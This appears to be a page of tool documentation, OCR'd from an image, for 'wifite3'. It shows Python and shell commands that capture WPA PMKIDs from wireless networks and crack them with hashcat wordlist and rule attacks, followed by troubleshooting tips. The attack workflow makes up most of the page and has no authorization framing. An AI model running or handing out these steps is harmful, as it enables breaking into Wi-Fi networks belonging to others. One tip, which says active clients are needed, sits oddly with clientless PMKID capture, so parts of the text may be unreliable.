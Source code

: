 ### wifite3 Implementation

```python
# PMKID capture using wifite3
from wifite3 import NetworkScanner

scanner = NetworkScanner("wlan0")
pmkid_captures = scanner.capture_pmkid(duration_seconds=60)

for capture in pmkid_captures:
    print(f"SSID: {capture.ssid}")
    print(f"BSSID: {capture.bssid}")
    print(f"PMKID: {capture.pmkid}")
    print(f"Hashcat Format: {capture.get_hashcat_format()}")
```

### Command Line Usage

```bash
# Basic PMKID capture
wifite3 --pmkid --duration 60

# With specific interface
wifite3 --pmkid -i wlan0 --duration 120

# Verbose output
wifite3 --pmkid --verbose --duration 30
```

### Hashcat Integration

```bash
# Prepare hashcat input file
echo "WPA*01*<PMKID>*<BSSID>*<CLIENT_MAC>*<SSID>" > pmkid_hashes.txt

# Run hashcat attack
hashcat -m 22000 -a 0 pmkid_hashes.txt wordlist.txt

# Use rules for better results
hashcat -m 22000 -a 0 pmkid_hashes.txt wordlist.txt -r rules/best64.rule
```

## Troubleshooting

### Common Issues

1. **No PMKID Captured**
   - Ensure network has active clients
   - Check interface is in monitor mode
   - Verify WPA2/WPA3 support
   - Increase capture duration
